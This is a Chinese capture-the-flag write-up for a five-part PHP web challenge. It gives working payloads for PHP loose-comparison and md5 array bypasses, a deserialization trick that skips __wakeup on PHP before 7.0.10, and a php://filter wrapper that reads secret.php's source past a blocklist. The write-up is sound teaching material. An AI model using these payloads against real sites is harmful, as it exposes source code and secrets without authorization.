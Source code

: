 # PHP_Final_Exam

~~世界上最好的语言也要期末考试！~~

因为懒得写前端就把题目藏在源码里了，F12查看网页源码会看到注释提示，网页文件有备份，PHP的主页备份一般就是"index.php.bak"，下载后可以看到源码（要看懂需要一点PHP语言的基础）

## 第一题

看得懂PHP就能直接出，GET传入的"ans1"参数值为"ea5y"即可通过：

```
?ans1=ea5y
```

## 第二题

PHP的弱类型比较，运算符 `==` 是弱类型等于，运算时符号右侧的值先转化为与左侧变量同类型，在比较是否相等。

由于传入的变量只能为整数，因此需要将目标字符串转化为整数类型。字符串转化为数字时，截取左侧的连续数字字符串，并抛弃第一个非数字字符与后面所有的字符，因此字符串转化后就是1357，传入1357即可：

```php
?ans2=1357
```

## 第三题

PHP的 `md5` 函数绕过，md5函数不认识数组，怎么处理结果都是null，因此传入不相等的数组值即可。

php中传入数组的方法是 `?a[]=3` ，该式子定义变量a是数组并添加数组的首个变量为3，因此传入：

```php
?ans3[]=1&_ans3[]=2
```

## 第四题

一道需要利用CVE的反序列化，源码中提供了model类，在析构函数 `__destruct` 中检测该类的"ans"与"stdAns"是否相等，若相等则将第四题类的检测置为1，即第四题得以通过。

因此需要反序列化的类就是model，它有一个 `__wakeup` 函数，该函数总是在该类反序列化之前执行，因此每当该类被反序列化为对象变量时，内部的两个变量会被强行更改为不相等。

源码中的注释提示PHP版本为7.0.9，在版本7.0.10之前，PHP有一个反序列化漏洞，在传入反序列化内容时，如果最外层标记对象内容数量的值比实际内容数量大，则反序列化时不会触发 `__wakeup` 函数

例如以下EXP：

```php
<?php
class model{
    public $stdAns;
    public $ans;
}
$tmp = new model();
$tmp->stdAns="123";
$tmp->ans="123";
echo serialize($tmp);
```

他返回：

```
O:5:"model":2:{s:6:"stdAns";s:3:"123";s:3:"ans";s:3:"123";}
```

表示model是一个类O，它有2个成员变量"stdAns"和"ans"，现在将2改为3，因为大于实际值，因此传入后 `__wakeup` 不会触发，"stdAns"与"ans"相等都为"123"，即可通过第四题的检测。

因此需要传入：

```
?ans4=O:5:"model":3:{s:6:"stdAns";s:3:"123";s:3:"ans";s:3:"123";}
```

## 第五题

PHP的"filter"伪协议利用。

```php
include("secret.php");
$this->secret=$secret;
```

包含了"secret.php"文件后读取其中的"secret"变量，要求我们传入参数与该变量的内容相同即可通过第五题。

include语句相当于将"secret.php"的内容原样放入到该语句的位置，由于php语句会被浏览器解析，因此源码不会被原样显示，而是会被解析处理，文件中的"secret"的变量被读取并赋值，我们的目的是查看"secret.php"的源码内容从而获得"secret"变量的值。

语句：

```php
$prm = $_GET[$prob5->file];
if(!preg_match("/flag|file|data|\\.\\.\\/|^\\/.*/i", $prm)){
    $file = file_get_contents($prm);
} else {
    $file = "No cheat!";
}
// ...
<span class="cot"><?=$file?></span>
```

传入一个文件名后，php会读取对应文件的内容并放到"file"变量中，在HTML源码中其内容被原样输出，由于"secret.php"的内容是php代码，会被解析，因此即使输出出来我们也看不到。

为此要用到"filter"协议，将读取的源码内容进行base64后输出，由于不满足php解析格式，因此是前端可见的：

```
?file=php://filter/convert.base64-encode/resource=secret.php
```

会得到：

```php
PD9waHANCiRzZWNyZXQ9InlvdSBmaW5kIHRoaXMhIjsNCj8+

-> 
<?php
$secret="you find this!";
?>
```

因此最终传入：

```
?ans5=you find this!&file=php://filter/convert.base64-encode/resource=secret.php
```

## 最终Payload

```
?ans1=ea5y&ans2=1357&ans3[]=1&_ans3[]=2&ans4=O:5:"model":3:{s:6:"stdAns";s:3:"123";s:3:"ans";s:3:"123";}&ans5=you%20find%20this!&file=php://filter/convert.base64-encode/resource=secret.php
```